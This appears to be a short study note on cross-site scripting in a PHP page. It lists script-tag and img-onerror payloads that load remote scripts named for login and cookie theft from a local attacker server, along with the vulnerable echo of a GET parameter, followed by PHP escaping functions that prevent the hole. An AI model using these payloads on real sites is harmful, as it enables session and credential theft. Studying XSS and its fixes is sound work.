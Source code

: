 # Injections
<script src="http://127.0.0.1:6969/dvdAnimate.js"></script>
<script src="http://127.0.0.1:6969/login.js"></script>
<script src="http://127.0.0.1:6969/cookies.js"></script>
http://localhost:8000/?group=<script src="http://127.0.0.1:6969/dvdAnimate.js"></script>
  <?php echo $_GET['group']; ?>


<img onerror="var s=document.createElement('script');s.src='http://127.0.0.1:6969/login.js';document.body.appendChild(s)"/>

# Preventing
htmlspecialchars()
strip_tags()
addslashes()
htmlspecialchars($row["text"], ENT_QUOTES)
htmlspecialchars($_GET['username'])

